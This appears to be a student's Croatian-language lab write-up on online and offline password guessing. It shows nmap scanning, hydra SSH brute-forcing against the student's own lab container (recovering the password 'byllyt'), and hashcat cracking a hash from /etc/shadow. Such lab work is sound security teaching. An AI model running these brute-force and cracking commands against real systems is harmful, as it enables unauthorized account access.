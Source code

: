 # Lab 5 - Online and Offline Password Guessing

 Alati koji nam trebaju za ovu vježbu su nmap, hydra i hashcat. 
 Osnovne informacije o nmap-u možemo saznati komandom whatis.
 ```whatis nmap
nmap (1)             - Network exploration tool and security / port scanner
```
Koristimo nmap na lokalnoj mreži: 
``` 
nmap -v 10.0.15.0/28
```
Nmap skenira dostupna računala i traži otvorene portove.
Na http://a507-server.local/ pronalazim docker container koji mi pripada. Njegov username je vrandecic_daniel, a IP adresa 10.0.15.0. Ne mogu se povezati
na svoj container pomoću ssh vrandecic_daniel@10.0.15.0 jer je potrebna lozinka koju ne znam.
Znamo da lozinka ima 4 do 6 znakova koji mogu biti od a do z (lowercase) - ukupno 26 mogućih znakova.
Postoji 26^4 mogućnosti ako ima 4 znaka, 26^5 ako ima 5 znakova ili 26^6 ako ima 6 znakova.
Ukupan password space je 26^4 + 26^5 + 26^6 što je približno 2^29. 

Pozivamo hydra s poznatim korisničkim imenom, IP adresom containera i ograničenjima lozinke.
```hydra -l vrandecic_daniel -x 4:6:a 10.0.15.0 -V -t 4 ssh```
U outputu je navedeno da je rate 64 test/s = 2^6 test/s. Budući da je lozinka vjerojatno u prvoj polovici password spacea veličine 2^29, dovoljno je 2^28 testova.
Potebno vrijeme da ih se izvrši uz navedeni rate je T = 2^28/2^6 = 2^22 min, što je približno 8 godina. To vrijeme je predugo pa koristimo već gotov dictionary
koji
skidamo sa servera: ```wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g5/```.
Sada pozivamo hydra s dobivenim dictionaryjem: ```hydra -l vrandecic_daniel -P dictionary/g5/dictionary_online.txt 10.0.15.0 -V -t 4 ssh```.

```[22][ssh] host: 10.0.15.0   login: vrandecic_daniel   password: byllyt
1 of 1 target successfully completed, 1 valid password found
```

Konačno je pronađena lozinka za moj container, byllyt, i sada se mogu prijaviti u container.

#Offline Password Guessing

U /etc/shadow su hashevi lozinki. Željeni hash spremamo u hash.txt. Pokušamo pronaći lozinku pomoću 
```hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10```, ali vidimo da bi na ovaj način trebalo bi previše vremena, pa koristimo
lokalni dictionary. 
```hashcat --force -m 1800 -a 0 hash.txt dictionary/g5/dictionary_offline.txt --status --status-timer 10```.
Nakon nekog vremena hashcat pronalazi traženu lozinku.
